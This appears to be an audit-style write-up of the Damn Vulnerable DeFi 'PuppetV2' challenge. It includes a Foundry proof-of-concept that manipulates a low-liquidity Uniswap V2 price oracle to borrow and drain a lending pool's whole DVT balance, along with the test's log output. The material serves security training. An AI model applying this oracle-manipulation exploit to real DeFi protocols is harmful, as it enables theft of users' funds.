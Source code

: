 # Damn Vulnerable Defi - PuppetV2
- Scope
    - PuppetV2Pool.sol
    - UniswapV2Library.sol
    - IUniswapV2Pair.sol
    - IUniswapV2Router02.sol
    - IUniswapV2Factory.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## `UniswapV2Exchange` single price oracle dependency allows for token price manipulation

### Summary
The PuppetPoolV2 rely on a single price oracle UniswapV2Exchange which has low liquidity, allowing manipulation of the value of DVT token and allow draining the token from PuppetPool.

### Vulnerability Details
Single reliance on UniswapV2Exchange as price oracle and low liquidity exchange. Allowing manipulation of a single token value.

### Impact/Proof of Concept
```
function test_puppetV2() public checkSolvedByPlayer {
        // Swap DVT for ETH in Uniswap, then deposit the ETH to WETH
        // DVT value drops, we use WETH to swap out all the DVT inside PuppetPool
        console.log("player DVT beforeBalance: ", token.balanceOf(address(player)) / 1e18);
        console.log("exchange DVT beforeBalance: ", token.balanceOf(address(uniswapV2Exchange)) / 1e18);
        
        address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);
        token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);
        uniswapV2Router.swapExactTokensForETHSupportingFeeOnTransferTokens(PLAYER_INITIAL_TOKEN_BALANCE, 0, path, address(player), 9999999999);
        console.log("player DVT afterBalance: ", token.balanceOf(address(player)) / 1e18);
        console.log("exchange DVT afterBalance: ", token.balanceOf(address(uniswapV2Exchange)) / 1e18);

        // Check what is the required WETH to get all the DVT out
        uint256 wethRequired = lendingPool.calculateDepositOfWETHRequired(token.balanceOf(address(lendingPool)));
        console.log("WETH required: ", wethRequired / 1e18);
        weth.deposit{value: address(player).balance}();
        console.log("player WETH Balance: ", weth.balanceOf(address(player)) / 1e18);
        weth.approve(address(lendingPool), wethRequired);
        // Borrow all the token from pool
        lendingPool.borrow(token.balanceOf(address(lendingPool)));
        
        // Transfer all the tokens to recovery
        token.transfer(recovery, token.balanceOf(player));
        console.log("pool DVT Balance: ", token.balanceOf(address(lendingPool)) / 1e18);
        console.log("player DVT Balance: ", token.balanceOf(address(player)) / 1e18);
        console.log("recovery DVT Balance: ", token.balanceOf(address(recovery)) / 1e18);
    }
```

Results
```diff
[PASS] test_puppetV2() (gas: 268432)
Logs:
  ===== BEFORE SWAP =====
  player DVT beforeBalance:  10000
  exchange DVT beforeBalance:  100
  ===== AFTER SWAP =====
  player DVT afterBalance:  0
  exchange DVT afterBalance:  10100
  ===== BEFORE BORROW =====
  WETH required:  29
  player WETH Balance:  29
  ===== AFTER BORROW =====
  pool DVT Balance:  0
  player DVT Balance:  0
  recovery DVT Balance:  1000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 9.12ms (1.92ms CPU time)
```

